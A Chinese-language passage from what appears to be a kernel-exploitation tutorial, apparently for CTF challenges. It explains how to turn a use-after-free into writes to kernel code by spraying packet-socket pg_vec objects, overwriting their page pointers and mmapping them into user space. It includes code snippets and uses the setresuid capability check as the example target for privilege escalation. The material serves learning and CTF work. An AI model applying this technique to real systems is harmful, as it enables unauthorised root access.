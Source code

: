 定义好如上内容后，使用如下方式即可简单地获得一个指定大小的，由`pg_vec`数组组成的`obj`：

```c
int packet_fd = alloc_pgv(count, 0x1000);
```

👆上面的 `count` 是指`pg_vec`中含有的`struct pgv`的数量。而`struct pgv`的定义如下：

```c
struct pgv {
	char *buffer;
};
```

因此，若我们要申请一个大小为`0x130`的`obj`，即可以使用如下方式：

```c
int packet_fd = alloc_pgv(0x130 / 8, 0x1000);
```

**这里需要注意，在上面函数过程中，分配`pg_vec`之前还要先分配一个`0x20`的`obj`。因此假如是`0x20`的`UAF`，那么就需要注意了。**



### 篡改虚拟内存数组的内容

这一步往往需要使用题目的漏洞来实现。

例如我们有一个`UAF`，那么我们可以利用`setxattr`等来将`pg_vec`这个`obj`中每一个`struct pgv`指向的地址都改为内核代码的地址。

### 将虚拟地址映射到用户态

也就是最后一步，我们通过刚刚得到的`packet_fd`来将虚拟地址映射到用户态，随后在用户态修改内容即可。

使用如下方式映射：

```c
char *page = mmap(NULL, 0x1000 * (count / 8), PROT_READ | PROT_WRITE, MAP_SHARED, packet_fd, 0);
```

如上，其中映射的大小是`0x1000 * (count / 8)`，也就是`alloc_pgv`时，获取的全部页面内容；

此外，我们将`flags`设置为`MAP_SHARED`，表示创建共享的映射区域；

最后在`fd`我们传入`packet_fd`，指定文件描述符为刚刚得到的`packet_ring_buffer`的`fd`即可。

此时，我们便可以直接修改`page`，即可修改内核代码段的数据。

### 示例

假设我们希望修改如下逻辑：

```c
long __sys_setresuid(uid_t ruid, uid_t euid, uid_t suid)
{
    // ...
    if (!ns_capable_setid(old->user_ns, CAP_SETUID)) { // 也就是这个if
        if (ruid != (uid_t) -1        && !uid_eq(kruid, old->uid) &&
            !uid_eq(kruid, old->euid) && !uid_eq(kruid, old->suid))
            goto error;
        if (euid != (uid_t) -1        && !uid_eq(keuid, old->uid) &&
            !uid_eq(keuid, old->euid) && !uid_eq(keuid, old->suid))
            goto error;
        if (suid != (uid_t) -1        && !uid_eq(ksuid, old->uid) &&
            !uid_eq(ksuid, old->euid) && !uid_eq(ksuid, old->suid))
            goto error;
    }
    // ...
}
```
